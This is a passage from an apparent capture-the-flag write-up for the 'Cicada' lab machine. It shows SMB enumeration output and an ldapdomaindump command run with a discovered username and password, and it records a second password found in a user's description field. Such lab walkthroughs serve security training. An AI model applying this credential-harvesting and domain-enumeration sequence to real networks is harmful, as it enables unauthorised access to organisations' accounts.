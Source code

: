 ```
 =================================( Nbtstat Information for cicada.htb )=================================

Looking up status of 10.10.11.35
No reply from 10.10.11.35

 ====================================( Session Check on cicada.htb )====================================


[+] Server cicada.htb allows sessions using username 'michael.wrightson', password 'Cicada$M6Corpb*@Lp#nZp!8'


 =================================( Getting domain SID for cicada.htb )=================================

Domain Name: CICADA
Domain Sid: S-1-5-21-917908876-1423158569-3159038727

[+] Host is part of a domain (not a workgroup)
```
It gives us a lot of the domain info, but I can't seem to find anything useful.

Let's try another tool for domain enumerating, **ldapdomaindump**, which it dumps all information and it's better to analyze.
```
┌──(oriol㉿zero)-[~]
└─$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
It generates a bunch of files with different domain information.
```
┌──(oriol㉿zero)-[~/cicada]
└─$ ls
'Notice from HR.txt'     domain_computers.html   domain_computers_by_os.html   domain_groups.html   domain_policy.grep   domain_policy.json   domain_trusts.html   domain_users.grep   domain_users.json            passwords.txt
 domain_computers.grep   domain_computers.json   domain_groups.grep            domain_groups.json   domain_policy.html   domain_trusts.grep   domain_trusts.json   domain_users.html   domain_users_by_group.html   users.txt
```
Maybe the most important one here is the domain_users.html, inside we can see the users information in a html webpage.
![[cicada_03.png]]
We see that the user david.orelius has annoted his password on the description of his user, the password is **aRt$Lp#7t*VQ!3**
